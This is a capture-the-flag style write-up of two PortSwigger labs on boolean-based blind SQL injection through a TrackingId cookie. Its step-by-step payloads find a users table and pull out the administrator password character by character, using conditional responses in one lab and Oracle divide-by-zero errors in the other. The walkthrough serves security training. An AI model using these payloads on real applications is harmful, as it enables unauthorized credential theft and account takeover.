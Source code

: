 # Blind SQL injection-Boolean Based
## Summary
- [Lab11: Blind SQL injection with conditional responses](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Blind%20SQL%20injection/Blind%20SQLi%20-%20Boolean%20Based#lab11-blind-sql-injection-with-conditional-responses)
- [Lab12: Blind SQL injection with conditional errors](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Blind%20SQL%20injection/Blind%20SQLi%20-%20Boolean%20Based#lab12-blind-sql-injection-with-conditional-errors)

### Lab11: Blind SQL injection with conditional responses
- In Blind SQL injection, the application doesn't reply with the results of the query which we injected so we don't see any messages from the server to help us to detect the error to bypass it. 
- We will depend on some techniques to detect the blind SQL injection and exploit it and one of their techniques is called `using conditional responses`.
- Here, we will send some questions as queries to the server to wait for the reply from it if our query is `True` or `False`.

- You can send any of conditions to validate and monitor the responses like that:
```
TrackingId=xyz'--      
TrackingId=xyz'        (Causing in unnatural behavior)
```
#### or such as that:
```
TrackingId=xyz' AND 1=1--     (True condition)
TrackingId=xyz' AND 1=2--     (False condition and causing in unnatural behavior)
```

> `Note:` Some servers block the comment symbols as `#` and `--`, so we can use the condition with the single quotes like that:

```
TrackingId=xyz' AND '1'='1    (True condition)
TrackingId=xyz' AND '1'='2    (False condition and causing in unnatural behavior)
```
- If we used the comparer in burp suite to observe the behavior of the responses between the `True` and `False` conditions, we will find unnatural behavior in the application and the length of each response is different.
- And there is a `Welcome back!` message that is deleted when we send a `False` condition.
- But in the `True` condition, we will see a `Welcome back!` message in the response.

![lab11_comparer.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab11_comparer.png)

- So we proved and confirmed that the application evaluates our queries and the `TrackingId` parameter is vulnerable to blind SQL injection.

- Now we will try to verify and notice the message in the response to know if our query is `True` or `False`. 
- Here, we sured that there is a table is called a `users` when the `Welcome back!` message has appeared:
```
TrackingId=xyz' AND (SELECT 'test' FROM users LIMIT 1)='test'--
```

> `Note:` In the real-world scenario, you must try a lot of payloads and test a lot to reach any valid query that the application interprets.
- Now we will try to verify if the column of username is existing in the table or not by identifying the username with `administrator`:

```
TrackingId=xyz' AND (SELECT username FROM users WHERE username='administrator')='administrator'--
```
- Ok, there is an `administrator` username, so let's go to know the length of the password, but we will need to test many numbers and observe the message when it appears, and so we will know the right number of characters for the password.

```
TrackingId=xyz' AND (select 'test' FROM users WHERE username='administrator' and length(password)=1)='test'--
```
- But we will do that by the brute-forcing the length and matching if the message appeared and then we will know that this is the right number of length:

![lab11_brutefocring_length.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab11_brutefocring_length.png)

- We have known that the length password is 20 char.
- After that, we need to extract the password characters to log in with the admin password.
- We will do that by retrieving that data as numbers, so we will use two important functions to do that:
	- `ASCII`, which returns the [ASCII](https://upload.wikimedia.org/wikipedia/commons/d/dd/ASCII-Table.svg) code for the input character.
	- `SUBSTRING` (or SUBSTR in Oracle), which returns a substring of its input.
- Check out how these functions work:
	- [SUBSTRING()](https://www.w3schools.com/sql/func_mysql_substring.asp)
	- [ASCII()](https://www.w3schools.com/sql/func_mysql_ascii.asp)

```
TrackingId=xyz' AND (SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='administrator')=112--
```
- But we need to try the ASCII numbers for each char so we will brute-forcing for 20 chars.
- You can do that by using an intruder in the burp suite but it will take a long time to finish.
- We can write a python script to extract the password automatically and quickly.
- You can see my script from here:[SQLi_lab11_password_admin.py](https://github.com/Sec0gh/python-scripts/blob/main/Blind%20SQLi%20scripts/SQLi_lab11_password_admin.py)
- To run the script:
```
$ python3 SQLi_lab11_password_admin.py "Target_URl"
```

![lab11_password_admin.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab11_password_admin.png)

- Congrats, we got the password admin.

-----------------------------------------------------------------------
### Lab12: Blind SQL injection with conditional errors
- Here, our methodology will depend on the conditional responses which cause an SQL error.
- The main target is doing anything to cause an error in the database to ensure that the server reads and interprets our query so we will know the parameter is vulnerable to SQL injection.
- We can cause a SQL error like that(You can try any other payloads as you need):

```
TrackingId=xyz'               (Internal Server Error)
TrackingId=xyz' and 1=1'--    (Internal Server Error)
```
- But if you fixed them and added another single quote, you will receive succeeded response.
```
TrackingId=xyz''               (Succeeded response)
TrackingId=xyz' and 1='1'--    (Succeeded response)
```
- If you tried a payload like that you will notice that the logical conditions using (AND, OR) don't respond to any succeeded response.
```
TrackingId=xyz' AND (SELECT NULL)--    (Internal Server Error)
```
- And if you tried the concatenating, it won't work also.
```
TrackingId=xyz' || (SELECT NULL)--    (Internal Server Error)
```
- But if you tried concatenating and used the `dual` table, you will detect that it is an oracle database, and the server will respond with a succeeded response.

```
TrackingId=xyz' ||(SELECT NULL from dual)--
```
- Here we will try to prove that the `user` table is exist but it will respond with an `Internal Server Error`.
```
TrackingId=xyz' ||(SELECT NULL FROM users)--
```
- But you can limit the number of rows in oracle by using `ROWNUM` column.
- Check out: [ROWNUM](https://docs.oracle.com/cd/B14117_01/server.101/b10759/pseudocolumns008.htm)
```
TrackingId=xyz' ||(SELECT NULL FROM users WHERE ROWNUM = 1)--
```
- Now we will use the `CASE` statement to help us to submit our conditions.
- Check out the syntax of it: [SQL CASE Statement](https://www.w3schools.com/sql/sql_case.asp)
- Here, we will set a condition `1=1` which is `True`, so it will execute the action of  `TO_CHAR(1/0)`, and it will cause a `divide-by-zero error` and the server will respond with `Internal Server Error`.
- [TO_CHAR()](https://www.w3schools.blog/to-char-function-oracle): it will make this error because it can not convert this expression `1/0` from number to string, and we will use this function because it is an oracle database.
```
TrackingId=xyz'||(SELECT CASE WHEN 1=1 THEN TO_CHAR(1/0) ELSE 'test' END FROM dual)--
```
- but we can fix this condition by changing it to `1=2` to execute the action of `'test'`.
```
TrackingId=xyz'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE 'test' END FROM dual)--
```
- You can check out the conditional errors payloads for different databases from the [Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
- So now we will check if the administrator is in the `users` table or not by the same previous condition `1=2`.
```
TrackingId=xyz'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE 'test' END FROM users WHERE username='administrator')--
```
- Now, it is left only to know the password, but first, we need to know the length of the password.
- We will use the condition where if the length of the password is `True`, it will execute the action of `TO_CHAR(1/0)` and the server will respond with the error message.
- But now we will brute force the position of password length with intruder and match the message of `Internal Server Error` when it appears.
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)=1 THEN TO_CHAR(1/0) ELSE 'test' END FROM users WHERE username='administrator')--
```
- It's very amazing, we caught the length of the password through the error message, which appeared in the response(The password length is 20 char).

![lab12_length_password.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab12_length_password.png)

- After we have known the length of the password, we need to extract the password characters to log in with the admin password.
- We will do that by retrieving that data as numbers, so we will use two important functions to do that:
	- `ASCII`, which returns the [ASCII](https://upload.wikimedia.org/wikipedia/commons/d/dd/ASCII-Table.svg) code for the input character.
	- `SUBSTRING` (or `SUBSTR` in Oracle), which returns a substring of its input.

```
TrackingId=xyz'||(SELECT CASE WHEN ASCII(SUBSTR(password,1,1))=111 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- But we need to try the ASCII numbers for each char so we will brute-forcing for 20 chars.
- You can do that by using an intruder in the burp suite but it will take a long time to finish.
- We can write a python script to extract the password automatically and quickly.
- You can see my script from here:[SQLi_lab12_password_admin.py](https://github.com/Sec0gh/python-scripts/blob/main/Blind%20SQLi%20scripts/SQLi_lab12_password_admin.py)
- To run the script:
```
$ python3 SQLi_lab12_password_admin.py "Target_URl"
```

![lab12_admin_password.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab12_admin_password.png)

- Congrats, and finally, we got the password admin.









